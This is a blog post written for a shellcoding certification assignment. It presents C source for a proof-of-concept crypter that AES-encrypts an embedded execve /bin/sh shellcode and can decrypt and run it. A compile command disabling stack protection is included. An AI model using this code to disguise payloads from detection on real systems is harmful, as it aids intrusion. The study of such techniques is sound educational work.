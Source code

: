 ```yaml
---
comments: true
date: 2014-05-12
layout: blog
title: 'SLAE Assignment 7: Custom Crypter'
summary: 'This is the last assignment for the SLAE'
category: blog
tags: [asm-x86,nasm,slae]
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

  2. Free to use any existing encryption schema
	
  3. Can use any programming language

I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

	//Description:	Assignment #7 (PoC of Crypter using AES-256)
	//Author:		Paolo Stivanin <https://github.com/polslinux>
	//SLAE ID:		526

	#include <stdio.h>
	#include <string.h>
	#include <gcrypt.h>
	#include <stdint.h>
	
	#define ENC 1

	static void crypt(int, size_t, uint8_t *);

	uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

	#if !ENC
		uint8_t encShell[] = "";
	#endif

	uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
	uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
	const char *key = "securitytubeSLAE";

	int
	main (void)
	{
		int i, ag = gcry_cipher_map_name("aes256");
		size_t ln = strlen(origShell);
		uint8_t *buf = malloc(ln);

		crypt(ag, ln, buf);
		#if ENC
			for(i=0; i<ln; i++){
				printf("\\x%02x", buf[i]);
			}
			printf("\n");
		#else
			int (*ret)() = (int(*)())buf;
			ret();
		#endif

		free(buf);

		return 0;
	}

	static void
	crypt(  int algo,
			size_t len,
			uint8_t *buf)
	{
		gcry_cipher_hd_t hd;
		gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
		gcry_cipher_setkey(hd, key, 16);
		gcry_cipher_setiv(hd, iv, 16);
		gcry_cipher_setctr(hd, ctr, 16);
		#if ENC
			gcry_cipher_encrypt(hd, buf, len, origShell, len);
		#else
			gcry_cipher_decrypt(hd, buf, len, encShell, len);
		#endif
		gcry_cipher_close(hd);
	}

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
